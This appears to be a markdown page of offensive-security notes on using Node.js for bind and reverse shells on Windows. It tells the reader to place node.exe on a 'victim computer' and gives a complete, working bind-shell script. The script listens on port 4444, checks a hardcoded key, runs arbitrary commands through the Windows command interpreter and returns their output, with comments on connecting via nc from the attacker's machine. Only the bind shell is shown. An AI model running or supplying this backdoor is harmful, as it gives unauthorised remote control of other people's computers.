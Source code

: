 ## >> Node.js bind and reverse shell using node.exe

The Node.js JavaScript runtime is occasionally found on a Windows system either as a standalone installation or bundled in with some other application (e.g. Adobe Creative Cloud).  You can also extract the node.exe binary from the [ZIP package](https://nodejs.org/en/download/ "Node.js Download") and copy it to a victim computer.

Example of a bind shell (socket server)<br />
```javascript
// Example command execution with authentication.
// (1) Save this script as "server.js"
// (2) Launch the bind shell on the victim "node.exe server.js"
// (3) Connect from the attacking computer "nc <victim IP> 4444"
// command: ug0tpwn3d, allows the server to start processing commands.
// command: DISCONNECT, drops current connection, must reauth with key on new client connect.
// command: ABORT, terminates the script.

var net = require('net');
var spawn = require('child_process').spawn;
var c2host = '0.0.0.0';
var c2port = 4444;
var state = 'DISABLED';
var authkey = 'ug0tpwn3d';

var server = net.createServer(function(socket)
{
   socket.write('Ready...\r\n');
   socket.on('data', function(directive)
   {
      if(directive.toString().trim() === authkey && state === 'DISABLED')
      {
         // authn success, start processing commands
         state = 'ENABLED';
         socket.write('Authentication successful.  Accepting commands...\r\n');
      }
      else if(directive.toString().trim() === 'DISCONNECT' && state === 'ENABLED')
      {
         // drop current connection and disable command processor
         socket.destroy();
         state = 'DISABLED';
      }
      else if(directive.toString().trim() === 'ABORT' && state === 'ENABLED')
      {
         // terminate the script
         socket.destroy();
         process.exit(1);
      }
      else if(state === 'ENABLED')
      {
         // execute a command
         cmd = spawn(process.env.comspec, ['/c', directive.toString().trim()], {windowsVerbatimArguments: true});
         cmd.stdout.on('data', function(output)
         {
            socket.write(output.toString());
         });
         cmd.stderr.on('data', function(output)
         {
            socket.write(output.toString());
         });
      }
   });
}).listen(c2port, c2host);
```
